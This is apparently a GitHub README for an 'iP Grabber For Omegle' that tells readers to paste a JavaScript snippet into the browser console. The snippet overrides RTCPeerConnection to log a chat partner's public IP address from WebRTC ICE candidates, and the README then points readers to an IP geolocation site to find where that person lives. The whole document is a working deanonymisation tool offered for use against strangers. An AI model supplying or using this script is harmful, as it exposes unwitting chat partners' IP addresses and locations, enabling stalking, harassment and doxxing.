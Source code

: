 # iP Grabber For Omegle!

<p><center>On the bottom of the README.md file is there a script that you can use for omegle!</center></p>

# Install process
<ul>
    <li>
    <p>First go to https://omegle.com</p>
    <p>Then inspect the site (ctrl + shift + i)</p>
    <p>Then press "Console"</p>
    <p>Then paste this script:</p>
    window.oRTCPeerConnection  = window.oRTCPeerConnection || window.RTCPeerConnection

    window.RTCPeerConnection = function(...args) {
     const pc = new window.oRTCPeerConnection(...args)

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function(iceCandidate, ...rest) {
     const fields = iceCandidate.candidate.split(' ')

    if (fields[7] === 'srflx') {
    console.log('IP Address:', fields[4])
    }
    return pc.oaddIceCandidate(iceCandidate, ...rest)

    }

    return pc
    }
<p>
    If you did that press "Enter"
    Then <b>DON'T</b> close the inspect element. Just go into a chat and you see the IP
    If you want to know where the person live go to this site: https://dnschecker.org/ip-location.php?ip and paste his ip there!</p>
    </li>
    </ul>

# Special Thanks:
   <a href="https://github.com/getgaming">GitHub</a><br>
   <a href="https://youtube.com/getgamingyt">Youtube</a><br>
   <a href="https://getgaming.ml">Website</a>
